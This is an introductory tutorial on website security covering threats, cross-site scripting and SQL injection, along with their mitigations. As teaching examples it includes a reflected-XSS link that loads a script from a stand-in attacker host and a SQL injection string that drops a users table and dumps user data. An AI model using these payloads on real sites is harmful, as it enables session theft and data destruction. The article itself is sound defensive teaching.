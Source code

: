 # Website security

Website security requires vigilance in all aspects of website design and usage. This introductory article won't make you a website security guru, but it will help you understand where threats come from, and what you can do to harden your web application against the most common attacks.

## What is website security?

The Internet is a dangerous place! With great regularity, we hear about websites becoming unavailable due to denial or service attacks, or displaying modified (and often damaging) information on their homepages. In other high-profile cases, millions of passwords, email addresses, and credit card details have been leaked into the public domain, exposing website users to both personal embarrassment and financial risk.

The purpose of website security is to prevent these (or any) sorts of attacks. The more formal definition of website security *is the act/practice of protecting websites from unauthorized access, use, modification, destruction, or disruption*.

Effective website security requires design effort across the whole of the website: in your web application, the configuration of the web server, your policies for creating and renewing passwords, and the client-side code. While all that sounds very ominous, the good news is that if you're using a server-side web framework, it will almost certainly enable, "by default", robust and well-thought-out defense mechanisms against a number of the more common attacks. Other attacks can be mitigated through your web server configuration -- for example, by enabling HTTPS. Finally, there are publicly available vulnerability scanner tools that can help you find out if you've made any obvious mistakes.

The rest of this article gives you more details about a few common threats and some of the simple steps you can take to protect your site.

<hr>

**Note**: This is an introductory topic, designed to help you start thinking about website security, but it is not exhaustive.

<hr>

## Website security threats

This section lists just a few of the most common website threats and how they are mitigated. As you read, note how threats are most successful when the web application either trusts, or is *not paranoid enough* about the data coming from the browser.

### Cross-Site Scripting (XSS)

XSS is a term used to describe a class of attacks that allow an attacker to inject client-side scripts *through* the website into the browsers of other users. Because the injected code comes to the browser from the site, the code is *trusted* and can do things like send the user's site authorization cookie to the attacker. When the attacker has the cookie, they can log into a site as though they were the user and do anything the user can, such as access their credit card details, see contact details, or change passwords.

<hr>

**Note**: XSS vulnerabilities have been historically more common than any other type of security threat.

<hr>

The XSS vulnerabilities are divided into *reflected* and *persistent*, based on how the site returns the injected scripts to a browser.

* A *reflected* XSS vulnerability occurs when user content that is passed to the server is returned *immediately* and *unmodified* for display in the browser. Any scripts in the original user content will be run when the new page is loaded. For example, consider a site search function where the search terms are encoded as URL parameters, and these terms are displayed along with the results. An attacker can construct a search link that contains a malicious script as a parameter (e.g. `http://mysite.com?q=beer<script%20src="http://evilsite.com/tricky.js"></script>`) and email it to another user. If the target user clicks this "interesting link", the script will be executed when the search results are displayed. As discussed earlier, this gives the attacker all the information they need to enter the site as the target user, potentially making purchases as the user or sharing their contact information.
* A *persistent* XSS vulnerability occurs when the malicious script is *stored* on the website and then later redisplayed unmodified for other users to execute unwittingly. For example, a discussion board that accepts comments that contain unmodified HTML could store a malicious script from an attacker. When the comments are displayed, the script is executed and can send to the attacker the information required to access the user's account. This sort of attack is extremely popular and powerful, because the attacker might not even have any direct engagement with the victims.

While the data from `POST` or `GET` requests is the most common source of XSS vulnerabilities, any data from the browser is potentially vulnerable, such as cookie data rendered by the browser, or user files that are uploaded and displayed.

The best defense against XSS vulnerabilities is to remove or disable any markup that can potentially contain instructions to run the code. For HTML, this includes elements, such as `<script>`, `<object>`, `<embed>`, and `<link>`.

The process of modifying user data so that it can't be used to run scripts or otherwise affect the execution of server code is known as input sanitization. Many web frameworks automatically sanitize user input from HTML forms by default.

### SQL injection

SQL injection vulnerabilities enable malicious users to execute arbitrary SQL code on a database, allowing data to be accessed, modified, or deleted irrespective of the user's permissions. A successful injection attack might spoof identities, create new identities with administration rights, access all data on the server, or destroy/modify the data to make it unusable.

SQL injection types include Error-based SQL injection, SQL injection based on Boolean errors, and Time-based SQL injection.

This vulnerability is present if user input that is passed to an underlying SQL statement can change the meaning of the statement. For example, the following code is intended to list all users with a particular name (`userName`) that has been supplied from an HTML form:
```
statement = "SELECT * FROM users WHERE name = '" + userName + "';"
```
If the user specifies a real name, the statement will work as intended. However, a malicious user could completely change the behavior of this SQL statement to the new statement in the following example, by specifying the text in bold for the `userName`.
```
SELECT * FROM users WHERE name = 'a';DROP TABLE users; SELECT * FROM userinfo WHERE 't' = 't';
```
The modified statement creates a valid SQL statement that deletes the `users` table and selects all data from the `userinfo` table (which reveals the information of every user). This works because the first part of the injected text (`a';`) completes the original statement.

To avoid this sort of attack, you must ensure that any user data that is passed to an SQL query cannot change the nature of the query. One way to do this is to [escape](https://en.wikipedia.org/wiki/Escape_character) all the characters in the user input that have a special meaning in SQL.

<hr>

**Note**: The SQL statement treats the `'` character as the beginning and end of a string literal. By putting a backslash in front of this character (`\'`), we escape the symbol, and tell SQL to instead treat it as a character (just a part of the string).

<hr>

In the following statement, we escape the `'` character. The SQL will now interpret the name as the whole string in bold (which is a very odd name indeed, but not harmful).
```
SELECT * FROM users WHERE name = 'a\';DROP TABLE users; SELECT * FROM userinfo WHERE \'t\' = \'t';
```
Web frameworks will often take care of the character escaping for you. Django, for example, ensures that any user-data passed to querysets (model queries) is escaped.

<hr>

**Note**: This section draws heavily on the information in [Wikipedia here](https://en.wikipedia.org/wiki/SQL_injection).